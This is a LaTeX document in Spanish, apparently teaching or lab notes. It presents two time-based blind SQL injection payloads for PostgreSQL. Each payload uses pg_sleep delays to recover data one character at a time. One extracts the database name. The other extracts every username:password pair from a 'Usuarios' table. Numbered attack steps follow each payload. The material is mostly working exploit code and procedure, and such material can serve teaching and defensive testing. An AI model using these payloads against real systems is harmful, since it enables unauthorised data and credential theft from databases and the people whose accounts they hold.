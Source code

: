 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=SQL]
'
  AND (
    left(current_database(), {i}) <> '{p}' 
    OR (
      left(current_database(), {i}) = '{p}' 
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
  )
--
\end{lstlisting}

\textbf{Proceso de ataque:}
\begin{enumerate}
    \item El atacante comienza intentando adivinar el primer carácter del nombre de la base de datos. Usa un prefijo \texttt{\{p\}} de longitud 1 (por ejemplo, \texttt{'a'}) y establece \texttt{\{i\} = 1}.
    \item Inyecta la consulta. Si \texttt{left(current\_database(), 1) = 'a'} es cierto, la consulta entra en la parte que ejecuta \texttt{pg\_sleep(1)}, produciendo un retraso.  
    \item Si no hay retraso, el atacante prueba otro carácter en lugar de \texttt{'a'}, digamos \texttt{'b'}, y así sucesivamente, hasta provocar la demora.
    \item Una vez acertado el primer carácter, incrementa \texttt{\{i\}} a 2 y repite el procedimiento con el prefijo de dos caracteres. Continúa así sucesivamente hasta reconstruir el nombre completo de la base de datos.
\end{enumerate}

\subsubsection*{Inyección para obtener ``Usuarios y Contraseñas concatenados''}

\begin{lstlisting}[language=SQL]
' AND (
    LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) <> '{p}'
    OR (
      LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) = '{p}'
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
)
--
\end{lstlisting}

\textbf{Proceso de ataque:}
\begin{enumerate}
    \item El atacante sabe que la tabla \texttt{Usuarios} contiene nombres de usuario y contraseñas, y que la inyección generará una cadena del tipo \texttt{"usuario1:password1,usuario2:password2,\dots"}.
    \item Comienza adivinando el primer carácter del primer par \texttt{usuario:password}. Inserta un carácter candidato en \texttt{\{p\}} y usa \texttt{\{i\} = 1}.
    \item Si el servidor tarda 1 segundo (por el \texttt{pg\_sleep(1)}), el atacante confirma que el primer carácter es el correcto. De lo contrario, prueba con otro carácter.
    \item Al encontrar el primer carácter, pasa al segundo (\texttt{\{i\} = 2}), manteniendo el prefijo correcto anterior, y repite la operación.
    \item De este modo, el atacante recupera usuario y contraseña de cada cuenta, concatenados y separados por comas.
\end{enumerate}
\end{document}
